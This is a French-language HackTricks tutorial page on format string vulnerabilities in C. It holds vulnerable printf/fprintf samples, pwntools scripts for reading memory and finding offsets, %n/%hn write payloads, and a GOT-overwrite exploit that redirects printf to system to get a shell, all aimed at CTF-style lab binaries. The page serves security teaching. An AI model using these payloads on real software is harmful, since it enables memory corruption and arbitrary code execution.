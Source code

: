 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

En C, **`printf`** est une fonction qui peut être utilisée pour **imprimer** une chaîne. Le **premier paramètre** que cette fonction attend est le **texte brut avec les formatteurs**. Les **paramètres suivants** attendus sont les **valeurs** à **substituer** aux **formatteurs** du texte brut.

D'autres fonctions vulnérables sont **`sprintf()`** et **`fprintf()`**.

La vulnérabilité apparaît lorsqu'un **texte d'attaquant est utilisé comme premier argument** de cette fonction. L'attaquant pourra créer une **entrée spéciale abusant** des capacités de **format de printf** pour lire et **écrire des données à n'importe quelle adresse (lisible/écrivable)**. Cela lui permettant ainsi d'**exécuter du code arbitraire**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Exemples :**

* Exemple vulnérable :
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Utilisation normale :
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Avec des arguments manquants :
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnérable :
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Accéder aux Pointeurs**

Le format **`%<n>$x`**, où `n` est un nombre, permet d'indiquer à printf de sélectionner le n-ième paramètre (de la pile). Donc, si vous voulez lire le 4ème paramètre de la pile en utilisant printf, vous pourriez faire :
```c
printf("%x %x %x %x")
```
et vous liriez du premier au quatrième paramètre.

Ou vous pourriez faire :
```c
printf("%4$x")
```
et lire directement le quatrième.

Remarquez que l'attaquant contrôle le paramètre `printf`, ce qui signifie essentiellement que son entrée sera dans la pile lorsque `printf` est appelé, ce qui signifie qu'il pourrait écrire des adresses mémoire spécifiques dans la pile.

{% hint style="danger" %}
Un attaquant contrôlant cette entrée pourra **ajouter une adresse arbitraire dans la pile et faire en sorte que `printf` y accède**. Dans la section suivante, il sera expliqué comment utiliser ce comportement.
{% endhint %}

## **Lecture Arbitraire**

Il est possible d'utiliser le formatteur **`%n$s`** pour faire en sorte que **`printf`** obtienne l'**adresse** située à la **n position**, la suivant et **l'imprimer comme si c'était une chaîne** (imprimer jusqu'à ce qu'un 0x00 soit trouvé). Donc, si l'adresse de base du binaire est **`0x8048000`**, et que nous savons que l'entrée de l'utilisateur commence à la 4ème position dans la pile, il est possible d'imprimer le début du binaire avec :
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Notez que vous ne pouvez pas mettre l'adresse 0x8048000 au début de l'entrée car la chaîne sera coupée à 0x00 à la fin de cette adresse.
{% endhint %}

### Trouver l'offset

Pour trouver l'offset de votre entrée, vous pouvez envoyer 4 ou 8 octets (`0x41414141`) suivis de **`%1$x`** et **augmenter** la valeur jusqu'à récupérer les `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Utilité

Les lectures arbitraires peuvent être utiles pour :

* **Dump** le **binaire** de la mémoire
* **Accéder à des parties spécifiques de la mémoire où des informations sensibles** **sont stockées** (comme des canaris, des clés de chiffrement ou des mots de passe personnalisés comme dans ce [**défi CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Écriture Arbitraire**

Le formatteur **`%<num>$n`** **écrit** le **nombre de bytes écrits** à l'**adresse indiquée** dans le paramètre \<num> dans la pile. Si un attaquant peut écrire autant de caractères qu'il le souhaite avec printf, il va pouvoir faire en sorte que **`%<num>$n`** écrive un nombre arbitraire à une adresse arbitraire.

Heureusement, pour écrire le nombre 9999, il n'est pas nécessaire d'ajouter 9999 "A" à l'entrée, pour ce faire, il est possible d'utiliser le formatteur **`%.<num-write>%<num>$n`** pour écrire le nombre **`<num-write>`** à l'**adresse pointée par la position `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Cependant, notez qu'en général, pour écrire une adresse telle que `0x08049724` (qui est un énorme nombre à écrire d'un coup), **on utilise `$hn`** au lieu de `$n`. Cela permet de **n'écrire que 2 octets**. Par conséquent, cette opération est effectuée deux fois, une pour les 2 octets les plus élevés de l'adresse et une autre fois pour les plus bas.

Par conséquent, cette vulnérabilité permet de **tout écrire à n'importe quelle adresse (écriture arbitraire).**

Dans cet exemple, l'objectif sera de **surcharger** l'**adresse** d'une **fonction** dans la table **GOT** qui sera appelée plus tard. Bien que cela puisse abuser d'autres techniques d'écriture arbitraire pour exécuter :

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Nous allons **surcharger** une **fonction** qui **reçoit** ses **arguments** de l'**utilisateur** et **pointer** vers la **fonction** **`system`**.\
Comme mentionné, pour écrire l'adresse, généralement 2 étapes sont nécessaires : Vous **écrivez d'abord 2 octets** de l'adresse puis les autres 2. Pour ce faire, **`$hn`** est utilisé.

* **HOB** est appelé pour les 2 octets supérieurs de l'adresse
* **LOB** est appelé pour les 2 octets inférieurs de l'adresse

Ensuite, en raison de la façon dont fonctionne la chaîne de format, vous devez **écrire d'abord le plus petit** de \[HOB, LOB] puis l'autre.

Si HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Si HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modèle Pwntools

Vous pouvez trouver un **modèle** pour préparer un exploit pour ce type de vulnérabilité dans :

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ou cet exemple de base [**ici**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) :
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Chaînes de format à BOF

Il est possible d'abuser des actions d'écriture d'une vulnérabilité de chaîne de format pour **écrire dans des adresses de la pile** et exploiter une vulnérabilité de type **dépassement de tampon**.

## Autres exemples et références

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, pas de relro, pas de canary, nx, pas de pie, utilisation de base des chaînes de format pour divulguer le drapeau de la pile (pas besoin de modifier le flux d'exécution)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écraser l'adresse `fflush` avec la fonction win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écrire une adresse à l'intérieur de main dans `.fini_array` (pour que le flux boucle encore une fois) et écrire l'adresse vers `system` dans la table GOT pointant vers `strlen`. Lorsque le flux revient à main, `strlen` est exécuté avec l'entrée utilisateur et pointant vers `system`, il exécutera les commandes passées.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
